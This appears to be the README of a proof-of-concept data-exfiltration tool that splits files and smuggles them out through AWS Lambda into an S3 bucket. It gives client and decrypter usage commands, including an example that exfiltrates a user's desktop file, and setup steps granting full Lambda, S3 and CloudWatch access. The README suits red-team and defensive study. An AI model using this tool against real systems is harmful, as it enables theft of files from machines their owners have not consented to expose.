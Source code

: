 # AWS Lambda Exfil Tool [PoC]

Here we have a small PoC on how the program works (The gif is somewhat outdated but the idea is the same)

![StandaloneClientGif](media/standaloneClient.gif)

## About
The program follows the following diagram. Explanation on how each part functions is present on standaloneClient pdf file.  

![StandaloneClient diagram](media/Standalone_client_1.png?raw=true "Standalone Client Diagram")


## Usage
#### Client
`py clientName.py -s <Partition size in kb> -i <File to exfiltrate> -f <OPTIONAL: Disable max partitions (500)>`  
Example:  
`py clientName.py -s 100 -i "C:\Users\SomeUser\Desktop\test.txt"`
#### Decrypter
###### Note: If not sure about hostname and filename, check S3 Bucket after exfiltration
`py decrypter.py -n "Hostname" -i "Filename"`  
Example after exfiltrating test.txt:  
`py decrypter.py -n "ID4A0E" -i "test"`

Follow the prompts for decrypter setup, this will set AWS keys as well as region and bucket name.  
Decrypter setup is based on `decrypterConfig.json` (Which will be created after the first time decrypter is ran).  
If AWS account / bucket needs to be changed, please modify the above mentioned json file.

## Setup

###### Note: Use python 3.x  

#### IAM Console
Go to AWS IAM console and create a role (Remember the ARN name) with the following permissions:  

- AWSLambdaFullAccess
- AmazonS3FullAccess
- CloudWatchFullAccess

###### Run `pip install -r requirements.txt`

###### Run `py setup.py` and follow the prompts for client setup

###### Decrypter will be set up the first time it's ran, follow the prompts

#### Partitions
Please take in account the size of the file to be exfiltrated when defining the partition size. By default the max partition number is set to 500. This means that the file to be exfiltrated must weigh `500*partitionSize` or less. This can be overrided by adding `-f` to the client call.   

#### Supported Files
The tool supports txt, csv and xlsx files but every file that is text based (For example a .py file) will be exfiltrated succesfully.
